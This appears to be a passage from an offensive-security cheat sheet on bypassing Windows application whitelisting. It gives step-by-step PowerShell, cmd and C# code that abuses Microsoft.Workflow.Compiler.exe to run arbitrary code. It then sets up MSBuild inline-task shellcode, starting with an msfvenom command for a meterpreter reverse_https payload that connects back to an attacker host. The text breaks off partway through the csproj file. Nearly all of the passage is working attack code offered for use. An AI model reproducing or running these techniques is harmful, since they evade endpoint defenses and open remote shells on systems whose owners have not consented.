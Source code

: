 ```
$workflowexe = "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe"
$workflowasm = [Reflection.Assembly]::LoadFrom($workflowexe)
$SerializeInputToWrapper = [Microsoft.Workflow.Compiler.CompilerWrapper].GetMethod('SerializeInputToWrapper', [Reflection.BindingFlags] 'NonPublic, Static')
Add-Type -Path 'C:\Windows\Microsoft.NET\Framework64\v4.0.30319\System.Workflow.ComponentModel.dll'
$compilerparam = New-Object -TypeName Workflow.ComponentModel.Compiler.WorkflowCompilerParameters
$compilerparam.GenerateInMemory = $True
$pathvar = "test.txt"
$output = "C:\Tools\run.xml"
$tmp = $SerializeInputToWrapper.Invoke($null, @([Workflow.ComponentModel.Compiler.WorkflowCompilerParameters] $compilerparam, [String[]] @(,$pathvar)))
Move-Item $tmp $output
```

2\. Then the following (change student to the actual username). You need to run this as admin. If fail also can try to continue:

```
$Acl = Get-ACL $output;$AccessRule= New-Object System.Security.AccessControl.FileSystemAccessRule(“student”,”FullControl”,”none”,”none","Allow");$Acl.AddAccessRule($AccessRule);Set-Acl $output $Acl
```

3\. Create test.txt with the following C# code:

```
using System;
using System.Workflow.ComponentModel;
public class Run : Activity{
    public Run() {
        Console.WriteLine("I executed!");
    }
}
```

4\. Run the following command using cmd:

```
C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe run.xml results.xml
```

## Arbitrary C# shellcode using MSBuild ##

1. Generate shellcode using msfvenom:\
`msfvenom -p windows/x64/meterpreter/reverse_https LHOST=IP LPORT=PORT EXITFUNC=thread -f csharp`

2. Save the following file as test.csproj with the shellcode replaced:

```
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <!-- This inline task executes x64 shellcode. -->
  <!-- C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe SimpleTasks.csproj -->
  <!-- Save This File And Execute The Above Command -->
  <!-- Author: Casey Smith, Twitter: @subTee --> 
  <!-- License: BSD 3-Clause -->
  <Target Name="Hello">
    <ClassExample />
  </Target>
  <UsingTask
    TaskName="ClassExample"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
    <Task>
    
      <Code Type="Class" Language="cs">
      <![CDATA[
        using System;
        using System.Runtime.InteropServices;
        using Microsoft.Build.Framework;
```